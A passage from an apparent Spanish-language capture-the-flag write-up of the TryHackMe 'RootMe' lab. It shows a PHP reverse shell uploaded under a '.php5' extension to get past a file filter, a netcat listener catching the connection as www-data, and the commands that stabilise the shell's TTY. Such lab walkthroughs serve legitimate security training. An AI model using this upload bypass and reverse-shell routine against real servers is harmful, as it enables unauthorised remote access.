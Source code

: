 Ahora lo que haremos sera subir el archivo con esa extension **.php5** y veremos que si que funciona
![](https://alvar-yoel.github.io/images/RootMe/php5.PNG)

Despues de que se haya subido iremos a _/uploads/_ y vemos que esta alli nuestra **reverse.php5**
[Uploads-RootMe](http://rootme.thm/uploads)
![](https://alvar-yoel.github.io/images/RootMe/reverse.PNG)

Ahora nos pondremos en el puerto 1234 en escucha con netcat
```shell
parrot-hacking@RootMe:~$ nc -nlvp 1234
```
Y pincharemos en **reverse.php5**
![](https://alvar-yoel.github.io/images/RootMe/reverse.PNG)

Y veremos que _awesome_ estamos dentro de la maquina
```shell
parrot-hacking@RootMe:~# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.9.3.94] from (UNKNOWN) [10.10.7.57] 54928
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:49:26 up 38 min,  0 users,  load average: 0.00, 0.00, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
## [](#header-4)Tratamiento de la TTY
Ahora lo que haremos sera hacer el tratamiento de la TTY
```shell
$ script /dev/null -c bash
```

Presionaremos **Ctrl+Z**
```shell
parrot-hacking@RootMe:~# stty raw -echo 
```

Ahora volveremos a la sesion de **NetCat**
```shell
parrot-hacking@RootMe:~# fg 
```

Pondremos **reset** para volver a la terminal
```shell
parrot-hacking@RootMe:~# reset 
```

Ahora pondremos tipo de terminal _xterm_
```shell
Terminal type? xterm
```

Exportaremos las _variables_ de entorno **TERM** y **SHELL**
```shell
www-data@rootme:/$ export TERM=xterm
```
```shell
www-data@rootme:/$ export SHELL=bash
```
